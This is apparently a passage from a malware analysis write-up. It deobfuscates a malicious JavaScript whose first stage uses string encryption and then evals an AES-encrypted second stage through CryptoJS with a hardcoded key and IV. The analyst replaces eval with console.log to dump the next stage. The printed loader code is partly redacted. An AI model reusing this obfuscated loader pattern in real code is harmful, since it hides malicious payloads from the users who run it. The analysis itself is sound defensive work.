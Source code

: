 ```javascript
    var u = '#0';
    var k = '#';
    return j.join(q).split(m).join(c).split(t).join(o).split(u).join(k).split(c)
}
)("Ats8ep%%e6Sr%prB%feUseEynatcc4%ad", 1198358);
;;;;;;;;;;;;eval(CryptoJS[_$_9b39[1]][_$_9b39[0]]({
    ciphertext: CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u008D\u004A\u00A9 ... <REDACTED> ... \u0063\u0098")))
}, CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u00D9\u0039\u009D\u003C\u00D8\u005E\u0089\u0083\u0033\u00E8\u005B\u0028\u000B\u0068\u0031\u0022\u00F3\u00FB\u0018\u0078\u0075\u0028\u0021\u001C"))), {
    iv: CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u0039\u0060\u00FB\u0032\u0053\u00DF\u0092\u00A9\u006D\u00C4\u0015\u0004\u005E\u0070\u003B\u0035")))
}).toString(CryptoJS[_$_9b39[4]][_$_9b39[5]]));

```

An experienced eye will notice that the string encryption technique is used to obfuscate the actual methods being called from the CryptoJS library. `_$_9b39` is the array that stores the decrypted strings. Let us print the decrypted strings, even though it is not mandatory for the deobfuscation of the first stage.

![](assets/decrypted-strings-stage1.png)

From the strings, we conclude that the second stage is encrypted with AES. The key and the iv are hardcoded inside the first stage. Let us change `eval` to `console.log` and dump the second stage of the malicious script.

```javascript
console.log(CryptoJS[_$_9b39[1]][_$_9b39[0]]({ciphertext:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u0062\u00FB\u0033\u00C0 ... <REDACTED> ... \u0070\u0065\u000F")))},CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u00DB\u00ED\u0098\u006C\u00B1\u0089\u00A1\u0047\u0095\u00F2\u008A\u00B3\u0017\u00AF\u004C\u002D\u00B2\u0007\u0037\u0029\u00CF\u0054\u00BC\u0093"))),{iv:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u00E4\u0075\u0026\u0014\u00CA\u004A\u0037\u002F\u0038\u0009\u00FC\u00C6\u000D\u0009\u0030\u008A")))}).toString(CryptoJS[_$_9b39[4]][_$_9b39[5]]));
```
